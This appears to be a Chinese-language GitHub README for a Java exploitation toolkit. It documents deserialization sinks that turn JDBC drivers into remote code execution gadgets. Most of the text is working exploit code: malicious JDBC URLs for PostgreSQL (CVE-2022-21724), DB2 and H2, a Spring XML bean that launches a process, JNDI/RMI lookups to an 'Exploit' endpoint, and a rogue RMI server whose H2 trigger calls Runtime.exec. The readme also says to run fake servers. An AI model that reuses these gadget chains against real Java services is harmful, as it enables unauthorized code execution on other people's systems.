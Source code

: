 # Deserial_Sink_With_JDBC

> 如果你：
>
> 厌倦了高版本JDK中TemplatesImpl已经被移除
>
> 寻找gadget却想不到sink
>
> 无法扩大JDBC攻击的危害
>
> ...
>
> 不妨试试以下JDBC与原生反序列化的结合
> 以下sink均为getter触发，可配合cb、fj、jackson等链子使用

---

### Postgresql

PostgreSQL的JDBC存在一个CVE-2022-21724，其影响范围是

> 9.4.1208 <=PgJDBC <42.2.25
>
> 42.3.0 <=PgJDBC < 42.3.2

Sink构造

```java
        String command = "jdbc:postgresql://node/test?socketFactory=org.springframework.context.support.ClassPathXmlApplicationContext&socketFactoryArg=http://127.0.0.1:2333/test.xml";
        PGSimpleDataSource dataSource = new PGSimpleDataSource();
        dataSource.setUrl(command);
```

利用`python3 -m http.server 2333`本地开启一个http服务，其中test.xml的文件内容为

```xml
<beans xmlns="http://www.springframework.org/schema/beans" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
            <list>
                <value>open</value>
                <value>-a</value>
                <value>Calculator</value>
            </list>
        </constructor-arg>
    </bean>
</beans>
```

具体代码见src/main/java/postgresql包下内容

### oracle

Sink构造

```java
        // sink
        OracleCachedRowSet oracleCachedRowSet = new OracleCachedRowSet();
        oracleCachedRowSet.setDataSourceName("rmi://127.0.0.1:1099/Exploit");
```

具体代码见src/main/java/oracle包下内容

### Dameng(达梦)

Sink构造，构造时需要设置Reader和Writer为null，使得writeObject的时候忽略掉这2个不可序列化的field

```java
        DmdbRowSet dmdbRowSet = new DmdbRowSet();
        dmdbRowSet.setDataSourceName("rmi://127.0.0.1:1099/Exploit");
        dmdbRowSet.setReader(null);
        dmdbRowSet.setWriter(null);
```

具体代码见src/main/java/dameng包下内容

### Teradata

Sink构造，此gadget为[ppt](https://i.blackhat.com/Asia-23/AS-23-Yuanzhen-A-new-attack-interface-in-Java.pdf)内容，不做过多讲解

```java
        String command = "open -a Calculator";
        TeraDataSource dataSource = new TeraDataSource();
        dataSource.setBROWSER(command);
        dataSource.setLOGMECH("BROWSER");
        dataSource.setDSName("127.0.0.1");
        dataSource.setDbsPort("10250");
```

`python3 fakeserver.py`开启恶意server

`python3 fakesso.py`开启恶意sso

具体代码见src/main/java/teradata包下内容

---

> 如果datasource并不能序列化，我们可以是用c3p0或dbcp来调用getConnection

### Dbcp H2

sink构造

```java
        // sink but use dbcp bypass jndi
        String command = "rmi://127.0.0.1:1099/Exploit";
        SharedPoolDataSource dataSource = new SharedPoolDataSource();
        dataSource.setDataSourceName(command);
```

同时为了应对高版本的JNDI注入，我们可以有如下恶意RMI Server

```java
        Registry registry = LocateRegistry.createRegistry(rmi_port);
        ResourceRef ref = new ResourceRef(
                "javax.sql.DataSource",
                null,
                "", "", true,
                "org.apache.commons.dbcp2.BasicDataSourceFactory",
                null);
        String JDBC_URL = "jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE TRIGGER shell3 BEFORE SELECT ON\n" +
                "INFORMATION_SCHEMA.TABLES AS $$//javascript\n" +
                "java.lang.Runtime.getRuntime().exec('open -a Calculator')\n" +
                "$$\n";
        ref.add(new StringRefAddr("driverClassName","org.h2.Driver"));
        ref.add(new StringRefAddr("url",JDBC_URL));
        ref.add(new StringRefAddr("username","root"));
        ref.add(new StringRefAddr("password","password"));
        ref.add(new StringRefAddr("initialSize","1"));
```

具体代码见src/main/java/dbcp2/h2包下内容

### C3p0 H2

sink构造

```java
        // sink
        String command = "jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE TRIGGER shell3 BEFORE SELECT ON\n" +
                "INFORMATION_SCHEMA.TABLES AS $$//javascript\n" +
                "java.lang.Runtime.getRuntime().exec('open -a Calculator')\n" +
                "$$\n";
        ComboPooledDataSource dataSource = new ComboPooledDataSource();
        dataSource.setJdbcUrl(command);
```

具体代码见src/main/java/c3p0/h2包下内容

### C3p0 ibm db2

sink构造

```java
        String command = "jdbc:db2://127.0.0.1:50001/BLUDB:clientRerouteServerListJNDIName=rmi://127.0.0.1:1099/Exploit;";
        ComboPooledDataSource dataSource = new ComboPooledDataSource();
        dataSource.setJdbcUrl(command);
```

具体代码见src/main/java/c3p0/ibmdb2包下内容

---

### Ref

- https://github.com/Y4tacker/JavaSec

- https://tttang.com/archive/1405/

- https://i.blackhat.com/Asia-23/AS-23-Yuanzhen-A-new-attack-interface-in-Java.pdf

- https://mogwailabs.de/en/blog/2023/04/look-mama-no-templatesimpl/

  
